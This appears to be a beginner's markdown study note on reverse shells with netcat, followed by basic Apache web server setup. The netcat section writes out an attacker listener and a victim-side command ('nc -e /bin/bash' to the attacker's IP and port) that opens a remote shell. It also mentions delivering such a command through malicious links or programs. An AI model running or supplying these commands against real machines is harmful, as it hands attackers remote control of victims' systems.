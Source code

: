 - On reverse shells, the attacker will listen for any request on specific port, and the victim will start the request on that port, so we will have a shell., the victim may not sending the request intentionally.
- But if the attacker send him a link/malware /malicious porgram/ that can start the reverse request that can leads to reverse shell.
- meany hackers use netcat tool .
- so what is netcat ?

## Netcat
- **Netcat is a Command-line Interface (CLI) Based tool that is use to read/write data over TCP/UDP.**
- It is a Back-End tool which can smoothly be cross utilized by other programs
- Used to Create a connection with any port you want or to create a listener on any port.
- It is a tool That helps to create Reverse shells or Bind shells
- It is built in on kali and parrot but for windows you have to download it.
#### Do not worry i gona show you how can get revesr shell on kali/parrot/ubuntu !! ok lets start.
- we must have netcat on both computer 



### A is on server  side / attacker
- Run this comand in terminal on lunix distro   to listen
-          sudo nc -lvpn "port" -s "your in "
-          Exmaple: sudo nc -lvpn 87 -s 192.160.0.0
- on Attacker computer now listening 


### B is on client/victem side

- it allow their request  run this command
-          sudo nc -e /bin/bash "attackerip' "port"
- N.b when entering port on victem side equal to attacker listning port
-        Example: sudo nc -e /bin/bash 192.160.0.0 87  
- when you Enter the attacker gain reverse shell


 ##  Web servers
- On the hardware side, a web server is a computer that stores web server software and a website's component files (for example, HTML documents, images, CSS stylesheets, and JavaScript files).
- A web server connects to the Internet and supports physical data interchange with other devices connected to the web.
- It is A computer software and hardware that uses HTTP and HTTPS to provide a website.
- There are a lot of softwares that can be installed on the server to work like web server

## A. Apache server
- This Server software will help to provide Web contents.
- On linux it comes Built in
- But on windows you can install it with softwares called Xampp and Wampp and will give you localhost web contents.
- if do not on kali Lunix you can install by typing this command ``sudo apt install apache2``
- To Start this server software use this command  `` sudo systemctl start apache2``
- #### Web Server - apache
- It only Browse their own directory go to  /var/www/html type this `` cd /var/www/html ``
- The website you see on the right side is the default web for apache2 the file for this is the “index.html”
- From now on our computer is acting like a webserver, it by default port 80 
- To view appche server  go to your browser and search your ip with : port, Example: ``192.160.0.0:80``
- To stop your apache go to your terminal and type ``sudo systemctl stop apache2``
## B. Python Server
- We can you python to start web servers